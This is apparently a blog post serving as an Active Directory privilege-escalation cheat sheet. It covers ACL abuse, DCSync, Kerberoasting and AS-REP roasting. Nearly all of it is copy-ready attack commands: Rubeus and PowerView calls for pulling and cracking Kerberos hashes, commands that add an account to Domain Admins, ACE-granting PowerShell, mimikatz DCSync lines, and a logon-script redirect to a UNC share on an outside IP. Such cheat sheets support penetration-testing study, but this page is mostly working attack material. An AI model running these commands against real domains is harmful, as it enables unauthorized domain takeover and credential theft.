 ```yaml
---
layout: post
date: 30/10/2022
author: Aswin Gopalakrishnan
title: Privilege Escalation Techniques
---
```


# ACL Abuse
Access Control Lists (ACLs) are an essential part of Windows Active Directory security. They are used to control access to resources such as files, folders, and network shares. However, ACLs can be abused by attackers to gain unauthorized access to sensitive data.

One common ACL abuse technique is known as "over-permissioning." This occurs when an administrator grants more permissions than necessary to a user or group. For example, granting "Full Control" to a user who only needs "Read" access. This can lead to unintended consequences, such as data leaks or unauthorized modifications.

## GenericAll / GenericWrite / WriteProperty

### On a User
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```
- **Targeted Kerberoasting**
    - Set a fake Service Principal Name (SPN):
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Set @{serviceprincipalname="fake/NOTHING"}
        ```
    - Obtain the hash:
        ```powershell
        .\Rubeus.exe kerberoast /user:<username> /nowrap
        ```
    - Clear the SPN:
        ```powershell
        Set-DomainObject -Credential $creds -Identity <username> -Clear serviceprincipalname -Verbose
        ```
- **Disable Preauthentication**
    ```powershell
    Set-DomainObject -Identity <username> -XOR @{UserAccountControl=4194304}
    ```

### On a Group
- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

### On a Computer
- **Resource-Based Constrained Delegation (RBCD)**

## Special Rights Abuse

1. GenericWrite on User
- Overwrite logon script path for the target user:
    ```powershell
    Set-ADObject -SamAccountName delegate -PropertyName scriptpath -PropertyValue "\\10.0.0.5\totallyLegitScript.ps1"
    ```

2. AllExtendedRights
- **Change Password**
    ```bash
    net user <username> <password> /domain
    ```

- **Add to Group**
    - Using `net`:
        ```bash
        net group "domain admins" spotless/add /domain
        ```
    - Using Active Directory module:
        ```powershell
        Add-ADGroupMember -Identity "domain admins" -Members spotless
        ```
    - Using PowerSploit:
        ```powershell
        Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
        ```

3. Self-Membership

- **Add to Group**
```powershell
Add-NetGroupUser -UserName spotless -GroupName "domain admins" -Domain "offense.local"
```

4. ExtendedRight on
- **User-Force-Change-Password (Password Reset)**
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}
Set-DomainUserPassword -Identity delegate -Verbose
```

5. WriteProperty
- **Add to Group**
```powershell
Add-ADGroupMember -Identity MachineAdmins -Members $otherDomainUser
```

6. WriteOwner
- **Change the object’s owner**
```powershell
Set-DomainObjectOwner -Identity testuser -Domain techcorp.local -OwnerIdentity "us\studentuser19"
```
- **Check Owner**
```powershell
Get-ADObject -Identity "CN=Users,DC=contoso,DC=com" -Properties Owner | Select-Object -ExpandProperty Owner
```

7. WriteDACL
- **Grant Generic Permissions** (must be the owner)
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local" 
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

8. DCSync Attack 
- The user running the command must have Replicating Directory Changes permissions in Active Directory. This is typically assigned to domain admins or equivalent privileged accounts.

```powershell
lsadump::dcsync /domain:<Domain> /user:<User>
lsadump::dcsync /domain:example.com /user:administrator
```

## Kerberoasting
Kerberoasting targets accounts with Kerberos service tickets by exploiting service principal names (SPNs) and cracking the tickets offline.

### Find Service Accounts
- Using Active Directory:
```powershell
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

- Using PowerView:
```powershell
Get-DomainUser –SPN
```

### Escalation
- Use `Rubeus` to Kerberoast service accounts supporting RC4 encryption.
```powershell
Rubeus.exe kerberoast /user:serviceaccount /simple /rc4opsec
```

### Crack Tickets
- Use `john` to crack Kerberos tickets:
```bash
john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\hashes.txt
```

### Targeted Kerberoasting

- Find "Write" Permissions
```powershell
Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "StudentUsers"}
```
  
- Find SPN
```powershell
Get-DomainUser -Identity support1user | select serviceprincipalname
Get-ADUser -Identity support1user -Properties ServicePrincipalName | select ServicePrincipalName
```

- Set-SPN
```powershell
Set-DomainObject -Identity support1user -Set @{serviceprincipalname='us/myspnX'}
Set-ADUser -Identity support1user -ServicePrincipalNames @{Add='us/myspnX'}
	```

- Kerberoasting
```powershell
Rubeus.exe kerberoast /outfile:targetedhashes.txt john.exe --wordlist=C:\AD\Tools\kerberoast\10k-worst-pass.txt C:\AD\Tools\targetedhashes.txt
```

### AS-REP Roasting
Find accounts without Kerberos preauthentication and request an AS-REP hash for offline cracking:
```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
Invoke-ASREPRoast -Verbose
```

---

